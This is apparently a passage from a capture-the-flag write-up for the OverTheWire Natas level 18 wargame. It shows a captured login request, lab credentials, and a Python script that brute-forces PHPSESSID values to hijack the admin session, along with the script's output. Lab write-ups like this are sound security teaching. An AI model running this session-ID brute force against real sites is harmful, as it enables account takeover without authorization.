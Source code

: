 ```php
<? } ?> 
```

When login with any username and password, we can see the response:

```
POST /index.php HTTP/1.1
Host: natas18.natas.labs.overthewire.org
Content-Length: 27
Cache-Control: max-age=0
Authorization: Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==
Upgrade-Insecure-Requests: 1
Origin: http://natas18.natas.labs.overthewire.org
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://natas18.natas.labs.overthewire.org/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=273
Connection: close

username=test&password=test
```

The random session was created, and `PHPSESSID=273` is set in cookie. Because the maximum of `PHPSESSID` is `640`. So we can brute-force 640 times to find the PHPSESSID of admin. This following python code `natas18.py`: 

```python
import requests

url = "http://natas18.natas.labs.overthewire.org/"
auth_username = "natas18"
auth_password = "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP"

for i in range(641):
    r = requests.get(url, auth=(auth_username, auth_password), cookies={'PHPSESSID': str(i)})
    if i == 0:
        request_length = len(r.content)
    if len(r.content) != request_length:
        print('admin id:', i)
        break
    request_length = len(r.content)
```

```
python3 natas18.py

('admin id:', 119)
```
